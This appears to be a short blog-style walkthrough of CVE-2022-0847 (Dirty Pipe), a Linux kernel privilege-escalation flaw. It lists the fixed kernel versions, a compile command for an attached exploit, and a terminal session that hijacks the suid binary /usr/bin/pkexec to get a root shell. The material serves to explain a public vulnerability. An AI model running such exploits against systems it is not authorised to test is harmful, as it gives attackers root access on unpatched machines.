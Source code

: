 ```yaml
---
title : "CVE-2022-0847"
# pre : ' '
description : "The Dirty Pipe Vulnerability."
date : 2022-03-08T10:20:03+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-0847 - The Dirty Pipe Vulnerability

This is the story of CVE-2022-0847, a vulnerability in the Linux kernel since 5.8 which allows overwriting data in arbitrary read-only files. This leads to privilege escalation because unprivileged processes can inject code into root processes.

It is similar to CVE-2016-5195 “Dirty Cow” but is easier to exploit.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.

### Compiling

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(c)"/%}}

```plain
$ gcc dirtypipez.c -o dirtypipez

$ file dirtypipez         
dirtypipez: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7aee8d04713d6c27bc73e3f5fb59b1eee5feeaf, for GNU/Linux 3.2.0, not stripped
```

### Exploiting

```plain
$ id
uid=1000(crypt0rr) gid=1000(crypt0rr) groups=1000(crypt0rr)

$ ./dirtypipez /usr/bin/pkexec
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
# 
```

The vulnerable binary is run from `/tmp/sh`. Remember to remove it after using/re-using.

```plain
$ ls -l /tmp/sh
-rwsr-xr-x 1 root crypt0rr 186 Mar  8 10:19 /tmp/sh
```

### URL list

* [Dirtypipe.cm4all.com - The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
* [Cve.mitre.org - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
